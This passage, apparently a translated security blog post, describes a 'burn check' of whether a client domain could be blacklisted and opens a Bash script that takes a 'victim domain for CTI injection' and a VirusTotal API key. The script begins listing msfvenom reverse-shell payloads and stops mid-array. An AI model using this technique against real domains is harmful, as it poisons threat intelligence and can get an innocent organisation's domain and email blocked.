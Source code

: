 ![](img/76ee173c80453d62809a35ec56c3feab.png)![](img/b01cf9f3f4f7756bbbab342f72a51be1.png)

正如你所看到的，我们在 2018 年的一段时间为客户做了“烧伤检查”项目，因为他们当时正在考虑 M&A。为了自己的声誉，各种各样的客户希望检查他们的数字足迹，做他们的投资者尽职调查。客户的主页域名与他们的电子邮件相同。因此，多供应商黑名单在任何时候都是非常糟糕的。如果我们把这个时间安排在重大公告或投标期间，我们可能会被作为恶意域阻止，从而多次阻碍来自其他使用流行安全技术的企业的通信。

我们的示例生成器脚本如下:

```
!#/bin/bash
#Take user input interactive style
#This script is for educational purposes only under GPLv2
#The author takes NO responsibility for illegal activities or abuse with it
#https://github.com/dc401/
#Dennis Chow 2020-July-05 dchow[AT]xtecsystems.com
echo "type victim domain for CTI injection:"
read victim_domain
echo "generating for ${victim_domain}"
echo "enter virustotal API"
read vt_api
echo "will upload using ${vt_api}"
#Define array for msfvenom to use
payloads=(
	"windows/dllinject/reverse_tcp_dns"
	"python/meterpreter/reverse_http"
	"windows/shell/reverse_tcp"
```